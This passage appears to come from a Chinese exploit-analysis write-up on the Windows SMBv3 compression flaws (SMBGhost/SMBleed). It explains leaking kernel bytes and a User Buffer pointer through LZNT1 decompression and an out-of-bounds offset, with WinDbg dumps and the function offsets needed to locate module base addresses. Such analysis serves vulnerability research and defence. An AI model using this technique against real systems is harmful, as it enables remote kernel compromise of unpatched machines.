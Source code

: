 ```
kd> db ffffa508`31ac1158
ffffa508`31ac1158  18 3a 80 34 08 a5 b0 00-00 00 00 00 00 00 00 00  .:.4............
ffffa508`31ac1168  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................
ffffa508`31ac1178  00 00 00 00 00 00 00 00-00 00 00 00 00 00 00 00  ................

```

如下所示，a5 是想要泄露的字节，先假设可以将测试数据放在后面。根据解压算法可知，首先会取出 b0a5，然后和 0xfff 相与后加 3，得到 a8，从 a5 开始数 a8 个字节，这些数据都属于第一个压缩块。如果要求第二次取出来的双字还是 00 00，就需要 a8-2+2 个字节的 00，也就是 a5+3。如果 00 的个数小于 x+3，第二次取双字的时候就一定会命中后面的 FF，触发错误。采用二分法找到满足条件的 x，使得当 00 的数量为 x+3 时解压缩正常完成，并且当 00 的数量为 x+2 时解压失败，此时得到要泄露的那个字节数据 x。

![](https://images.seebug.org/content/images/2020/09/24/1600927620000-13ouqoa.png-w331s)

下面开始步入正题，一步一步获取关键模块基址，劫持系统执行流程。为了方便描述利用思路，在 Windows 1903 单核系统上进行调试，利用前还需要收集各漏洞版本以下函数在模块中的偏移，以便后续进行匹配，计算相应模块基址及函数地址：

<table><thead><tr><th><strong>srvnet.sys</strong></th><th><strong>ntoskrnl.exe</strong></th></tr></thead><tbody><tr><td>srvnet!SrvNetWskConnDispatch</td><td>nt!IoSizeofWorkItem</td></tr><tr><td>srvnet!imp_IoSizeofWorkItem</td><td>nt!MiGetPteAddress</td></tr><tr><td>srvnet!imp_RtlCopyUnicodeString</td><td></td></tr></tbody></table>

### 泄露 User Buffer 指针

这一步要泄露的数据是已知大小缓冲区的 User Buffer 指针（POC 中是 0x2100）。请求包结构如下，Offset 为 0x2116，Originalsize 为 0，由于 Offset+Originalsize=0x2116，所以会分配大小为 0x4100 的 User Buffer 来存放还原的数据。然而，原始请求包的 User Buffer 大小为 0x2100（可容纳 0x10 大小的头和 0x1101 大小的 Data），Offset 0x2116 明显超出了该缓冲区的长度，在后续的 memcpy 操作中会存在越界读取。Offset 欺骗也是 1206 的一部分，在取得 Offset 的值之后没有判断其大小是否超出的 User Buffer 的界限，从而在解压成功后将这部分数据复制到一个可控的区域。又由于数据未初始化，可利用 LZNT1 解压将目标指针泄露出来。

![](https://images.seebug.org/content/images/2020/09/24/1600927621000-14epfhf.png-w331s)

以下为请求包的 Srvnet Buffer Header 信息，由于复制操作是从 Raw Data 区域开始（跳过 0x10 头部），因而越界读取并复制的数据长度为 0x2116+0x10-0x2100 = 0x26，这包括存放在 Srvnet Buffer Header 偏移 0x18 处的 User Buffer 指针 0xffffa50836240050。

```
kd> g
request: ffffa508`36240050  424d53fc 00000000 00000001 00002116
srv2!Srv2DecompressData+0x26:
fffff802`51ce7e86 83782410        cmp     dword ptr [rax+24h],10h

kd> dd rax
ffffa508`36242150  2f566798 ffffa508 2f566798 ffffa508
ffffa508`36242160  00010002 00000000 36240050 ffffa508
ffffa508`36242170  00002100 00001111 00002288 c0851000

kd> dd ffffa508`36240050+10+2116-6-10 l8
ffffa508`36242160  00010002 00000000 36240050 ffffa508
ffffa508`36242170  00002100 00001111 00002288 c0851000

```

以下为分配的 0x4100 的缓冲区，其 User Buffer 首地址为 0xffffa50835a92050：

```
kd> g
alloc: ffffa508`35a92050  cf8b48d6 006207e8 ae394c00 00000288
srv2!Srv2DecompressData+0x85:
fffff802`51ce7ee5 488bd8          mov     rbx,rax
kd> dd rax
ffffa508`35a96150  a1e83024 48fffaef 4810478b 30244c8d
ffffa508`35a96160  00020002 00000000 35a92050 ffffa508
ffffa508`35a96170  00004100 00000000 000042a8 245c8b48

```
